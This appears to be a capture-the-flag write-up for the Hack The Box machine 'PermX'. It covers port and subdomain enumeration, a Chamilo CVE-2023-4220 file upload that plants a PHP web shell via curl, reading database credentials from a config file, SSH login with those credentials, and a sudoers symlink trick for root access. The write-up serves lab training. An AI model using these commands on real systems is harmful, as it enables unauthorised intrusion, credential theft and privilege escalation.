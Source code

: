 # PermX-HTB-Writeup

## 

### Initial Nmap Scan
We begin by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sC -sV -Pn -v 10.10.11.23
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Update Hosts File
To access the web application, we need to add the discovered subdomain to our hosts file.

```bash
sudo nano /etc/hosts 
```

### Visit the Web Application
Access the web application by navigating to `http://permx.htb` in your browser.

![Web Application](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_11_57_41.png)

### Directory Search
Perform a directory search to find hidden files and directories on the web server.

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```
```bash
[04:28:32] Starting:                                                             
[04:28:35] 301 -  303B  - /js  ->  http://permx.htb/js/                     
[04:28:44] 200 -    3KB - /404.html                                         
[04:28:46] 200 -    4KB - /about.html                                       
[04:29:11] 200 -    3KB - /contact.html                                     
[04:29:12] 301 -  304B  - /css  ->  http://permx.htb/css/                   
[04:29:24] 301 -  304B  - /img  ->  http://permx.htb/img/                   
[04:29:26] 200 -  448B  - /js/                                              
[04:29:28] 200 -  491B  - /lib/                                             
[04:29:28] 301 -  304B  - /lib  ->  http://permx.htb/lib/
[04:29:29] 200 -  649B  - /LICENSE.txt
```

### Subdomain Enumeration
Discover subdomains associated with the target domain using Wfuzz.

```bash
wfuzz -c --hc 400,404 -t 200 --hl 9 -w subdomains-top1million-110000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb"
```
```bash
000000001:   200        586 L    2466 W     36182 Ch    "www"           
000000477:   200        352 L    940 W      19347 Ch    "lms"
```

![Subdomain](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_04_35_32.png)

### Directory Fuzzing on Subdomain
Perform directory fuzzing on the discovered subdomain to find additional hidden paths.

```bash
wfuzz -c --hc 400,404 -t 200  -w subdomains-top1million-110000.txt -u http://lms.permx.htb/FUZZ
```
```bash
000000328:   301        9 L      28 W       313 Ch      "main"                     
000000111:   301        9 L      28 W       312 Ch      "app"                      
000003062:   301        9 L      28 W       312 Ch      "src"                      
000002832:   301        9 L      28 W       322 Ch      "documentation"            
000009532:   200        352 L    940 W      19347 Ch    "#www"                     
000009838:   301        9 L      28 W       312 Ch      "bin"                      
000010581:   200        352 L    940 W      19347 Ch    "#mail"                    
000006335:   301        9 L      28 W       315 Ch      "plugin"                   
000002329:   301        9 L      28 W       315 Ch      "vendor"                   
000000044:   301        9 L      28 W       312 Ch      "web"                      
000047706:   200        352 L    940 W      19347 Ch    "#smtp"                    
000103135:   200        352 L    940 W      19347 Ch    "#pop3"
```

### Directory Enumeration with Gobuster
Run Gobuster to further enumerate directories on the subdomain.

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```bash

/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/index.php            (Status: 200) [Size: 19356]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
```

### Vulnerability Exploitation
Exploit a vulnerability to gain access to the system. In this case, we use [CVE-2023-4220](https://starlabs.sg/advisories/23/23-4220/) to upload a reverse shell.

Use [p0wny-shell](https://github.com/flozz/p0wny-shell) 

```bash
curl -F 'bigUploadFile=@/home/kali/HTB/permx/reverse_shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
![P0wny-shell](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_05_54_34.png)

### Extract Database Credentials
After gaining access, extract database credentials from the configuration file.

```bash
cat /var/www/chamilo/app/config/configuration.php
```
```bash
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6 *******bkW8';
```

### SSH Login
Use the extracted credentials to log in via SSH.

```bash
ssh mtz@10.10.11.23
pass: 03F6 *******bkW8
```

### Capture User Flag
Navigate to the user's home directory and capture the user flag.

```bash
mtz@permx:~$ ls
user.txt
mtz@permx:~$ cat user.txt
d914******************2d7f
```

### Privilege Escalation
Check sudo privileges and exploit them to escalate privileges to root.

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

### Modify Sudoers File
Exploit the allowed script to gain write access to the sudoers file and grant full sudo privileges.

```bash
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers
mtz

@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/sudoers
mtz@permx:~$ nano /etc/sudoers
mtz@permx:~$ sudo su
root@permx:/home/mtz# 
```

### Capture Root Flag
Navigate to the root directory and capture the root flag.

```bash
root@permx:/home/mtz# sudo su
root@permx:/# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt
be9de*****************0e6c3c8d13

```






